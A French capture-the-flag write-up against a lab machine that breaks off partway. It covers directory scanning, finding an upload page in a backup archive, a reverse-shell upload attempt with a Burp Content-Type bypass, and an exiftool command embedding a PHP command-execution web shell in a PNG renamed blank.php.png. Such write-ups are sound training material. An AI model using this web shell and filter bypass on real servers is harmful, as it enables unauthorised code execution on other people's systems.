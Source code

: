 ~~~
---- Scanning URL: http://10.10.10.146/ ----
==> DIRECTORY: http://10.10.10.146/backup/                                     
+ http://10.10.10.146/cgi-bin/ (CODE:403|SIZE:210)                             
+ http://10.10.10.146/index.php (CODE:200|SIZE:229)                            
==> DIRECTORY: http://10.10.10.146/uploads/                                    
                                                                               
---- Entering directory: http://10.10.10.146/backup/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.10.10.146/uploads/ ----
+ http://10.10.10.146/uploads/index.html (CODE:200|SIZE:2)                     
                                                                               
-----------------
END_TIME: Fri Oct 11 23:03:07 2019
DOWNLOADED: 9224 - FOUND: 3
~~~

Connectons nous à http://10.10.10.146/backup

Nous trouvons un fichier backup.tar, le télécharger et l'ouvrir. On trouve plusieurs fichiers dont un fichier nommé upload.php

Tentons de nous connecter à http://10.10.10.146/uplad.php

On tombe sur un page permettant d'uploader un fichier. Tentons de téléverser un reverse shell.

Ici nous utilisons php-reverse-shell.php de pentestmonkey (http://pentestmonkey.net/tools/web-shells/php-reverse-shell) disponible dans Kali dans /usr/share/webshells/php

Modifions le shell en insérant notre IP (celle du tunnel tun0) et en spécifiant un port ici 1234

Écouter sur le port 1234 avec netcat:

Uploadons le shell. Nous avons un message 'Invalid image file'. 

Essayons d'uploader à nouveau le shell en interceptant la requête avec Burp. Nous voyons:

~~~
Content-Disposition: form-data; name="myFile"; filename="php-reverse-shell.php"
Content-Type: application/x-php
~~~

Remplacer le Content-Type. Ref: [https://pentestlab.blog/2012/11/29/bypassing-file-upload-restrictions/](https://pentestlab.blog/2012/11/29/bypassing-file-upload-restrictions/)

Ça ne fonctionne toujours pas. Tentons d'insérer le shell dans une image nommée blank.png. 

Ref: 
- [http://hackers2devnull.blogspot.com/2013/05/how-to-shell-server-via-image-upload.html](http://hackers2devnull.blogspot.com/2013/05/how-to-shell-server-via-image-upload.html)
- [https://github.com/Shiva108/CTF-notes/blob/master/penbook/bypass_image_upload.md](https://github.com/Shiva108/CTF-notes/blob/master/penbook/bypass_image_upload.md)

~~~
root@Host-001:~/Bureau# exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' blank.png
root@Host-001:~/Bureau# mv blank.png blank.php.png
~~~

